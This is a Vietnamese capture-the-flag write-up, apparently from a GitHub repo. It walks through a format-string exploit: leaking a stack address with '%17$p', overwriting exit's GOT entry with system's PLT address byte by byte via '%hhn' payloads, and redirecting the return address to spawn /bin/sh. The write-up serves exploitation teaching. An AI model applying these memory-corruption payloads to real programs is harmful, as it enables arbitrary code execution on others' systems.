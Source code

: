 **Ý tưởng:**

- **nhìn tổng quan ida thì ta đã thấy có cả system lẫn /bin/sh**, nên tại đây ta sẽ kết hợp giữ **got** và **plt** để giải quyết bài này
- exit có chứa /bin/sh nếu tại đây biến thành system thì ta có được shell rồi, nên ý tưởng đầu tiên ta cần hướng tới là **ow got.exit thành plt.system**
- sau khi ow got.exit thành system xong ta cần trỏ vào hàm exit_f , **tại đây ta ko thể dùng ret2win được vì ko có lỗi BOF**, hmm nên ta nảy số ngay qua cách **ow rip thành địa chỉ của hàm exit_f**
- **để lấy được địa chỉ rip** thì ta cần leak được stack bằng cách khai thác lỗi fmt 

**Tóm tắt**

```( leak exe -> ret2win fmt -> leak stack -> ow exit.got() = system.plt() -> ow ret = exit_f )```

oke bây giờ ta leak stack và rip trước vì nó đơn giản 

```python=

##################################
### Stage 3:leak stack and ret ###
##################################

p.sendlineafter(b'phai lam gi day?????\n', b'%17$p') 
stack_leak = int(p.recvline()[:-1], 16)
ret = stack_leak - 0x100
log.info("stack leak: " + hex(stack_leak))
log.info("ret: " + hex(ret))

```

tới đây ta đây ta **ow got.exit thành plt system**

```lý do tại sao dùng plt mà ko phải got cho system:```


![image](https://github.com/gookoosss/CTF.-/assets/128712571/6a8bcf96-ff6d-48dc-a1f2-b5b7d3f0892d)


**hiểu hiểu đơn giản được là để thực thi được system thì cần dùng plt, got chỉ là địa chỉ chứa plt , còn muốn thực thi được thì phải dùng plt** 


tại đây ta sẽ lặp 6 lần từng byte 1 để debug cho dễ

```python
#############################################
### Stage 4: ow exit.got() = system.plt() ###
#############################################

system = exe.plt['system'] #plt.system
exit = exe.got['exit'] #got.ext

log.info("system: " + hex(system))

# in từ từ 1byte

for i in range(0,6):
    payload = f"%{system & 0xff}c%8$hhn".encode().ljust(16, b"\0")
    payload += p64(exit) 
    p.sendlineafter(b'phai lam gi day?????\n', payload )
    system = system >> 8
    exit += 1
    log.info("system: " + hex(system))

```
